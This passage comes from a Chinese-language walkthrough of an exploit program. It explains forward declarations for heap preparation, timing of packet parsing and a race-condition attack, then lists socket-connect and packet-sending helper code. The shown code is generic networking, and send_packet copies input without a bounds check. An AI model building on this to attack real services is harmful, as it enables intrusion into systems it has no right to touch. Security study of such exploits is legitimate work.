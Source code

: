 这些是函数的前向声明，用于后续的函数定义。它们分别用于设置连接、发送数据包、准备堆、测量数据包解析时间和尝试利用竞态条件。  
  
  
**5. 函数实现**  
  
5.1 设置连接  
```
int setup_connection (const char *ip, int port)
{
  int sock;
  struct sockaddr_in server_addr;


  sock = socket (AF_INET, SOCK_STREAM, 0);
  if (sock < 0)
    {
      perror ("socket");
      return -1;
    }


  server_addr.sin_family = AF_INET;
  server_addr.sin_port = htons (port);
  server_addr.sin_addr.s_addr = inet_addr (ip);


  if (connect (sock, (struct sockaddr *)&server_addr, sizeof (server_addr)) < 0)
    {
      perror ("connect");
      close (sock);
      return -1;
    }


  return sock;
}
```  
  
这个函数用于创建一个TCP连接到目标IP和端口。具体步骤如下：  
  
创建一个TCP socket。  
  
设置服务器地址，包括IP和端口。  
  
尝试连接到服务器，如果失败则返回错误。  
  
  
5.2 发送数据包  
```
void send_packet (int sock, unsigned char packet_type, const unsigned char *data, size_t len)
{
  unsigned char buffer[MAX_PACKET_SIZE];
  memset (buffer, 0, sizeof (buffer));
  buffer[0] = packet_type;
  memcpy (buffer + 1, data, len);
  send (sock, buffer, len + 1, 0);
}
```  
  